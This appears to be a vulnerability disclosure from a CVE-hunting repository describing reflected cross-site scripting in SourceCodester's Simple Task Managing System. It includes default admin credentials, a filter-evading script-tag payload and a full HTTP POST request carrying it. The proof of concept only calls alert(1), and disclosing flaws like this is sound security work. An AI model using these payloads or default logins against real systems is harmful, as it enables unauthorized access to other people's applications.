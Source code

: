 # Simple Task Managing System - XSS3

A vulnerability classified as problematic was found in SourceCodester Simple Task Managing System. This vulnerability affects unknown code. The manipulation of the argument newProjectValidation.php leads to cross site scripting. The attack can be initiated remotely.

username:admin password:admin ----> {ip}/newProjectValidation.php

Supplier： https://www.sourcecodester.com/php/15624/simple-task-managing-system-php-mysqli-free-source-code.html

/newProjectValidation.php has XSS

> Payload: "><ScRiPt>alert(1)</sCrIpT>

XSS because $short can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/6.png)

## Payload

```sql
POST /cve/Task%20Managing%20System%20in%20PHP/newProjectValidation.php HTTP/1.1
Host: localhost
Content-Length: 102
Cache-Control: max-age=0
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/cve/Task%20Managing%20System%20in%20PHP/newProject.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=hvkotkilavedcvtchro67huf9i
Connection: close

short=%22%3E%3CScRiPt%3Ealert%281%29%3C%2FsCrIpT%3E
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/4.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/7.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/5.png)